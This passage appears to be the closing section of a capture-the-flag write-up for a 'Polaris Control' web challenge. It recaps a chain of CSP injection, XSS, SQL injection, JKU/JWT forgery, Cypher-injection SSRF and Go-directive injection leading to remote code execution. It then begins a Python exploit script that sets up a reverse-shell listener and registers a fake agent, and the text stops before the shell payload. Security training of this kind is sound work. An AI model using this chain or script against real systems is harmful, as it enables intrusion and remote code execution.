 ### Recap
Altogether we chained quite a number of vulnerabilities to get RCE:
- CSP Injection via uploaded filename to neutralize CSP
- Allowing XSS via `| safe` entry in flask template
- Using XSS to send request as moderator user to `/panel/home` triggering SQLi
- Using SQLi to set poison JKU provider with our controlled JWKS 
- Signing our own JWT with this and using poisoned JKU provider endpoint to verify
- Exploiting Cypher Injection to trigger SSRF via `LOAD CSV`
- Using SSRF to hit localhost only endpoint `/panel/server`
- Using this endpoint to inject go directives into go source code, and cause RCE during `go generate`

Here is the full script to complete the exploit:

```python
#!/usr/bin/env python3
import requests, jwt, time, base64, json, urllib.parse
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend


"""
Exploit requirements:
1. get a random png named file.png, place in current directory
2. HTTP server to js and jku pub key
3. TCP listener for reverse shell

"""

local = True
proxy = True

HTTP_SERVER = "http://172.17.0.1:5000" if local else "http://5f65-82-11-229-58.ngrok-free.app"

listener_ip = "172.17.0.1" if local else "tcp://5f65-82-11-229-58.ngrok-free.app"
listener_port = "1234" if local else "80"

url = "localhost" if local else "94.237.48.19"
port = 1337 if local else 42240

sess = requests.Session()
sess.proxies.update({'http':'http://127.0.0.1:8080'}) if proxy else 0
sess.headers.update({'User-Agent': 'Polaris Control/1.2.3'})


body = {
        "version":    "a",
		"antivirus":  "b",
		"hostname":   "c",
		"platform":   "d",
		"arch":       "e",
		"rights":     "f"
}

# register our "agent", extract the creds
r = sess.post(f"http://{url}:{port}/comms/register", json=body)

ID = r.json()['identifier']
token = r.json()['token']

# okay check, (required?)
r = sess.get(f"http://{url}:{port}/comms/check/{ID}/{token}")
print(r.text)
```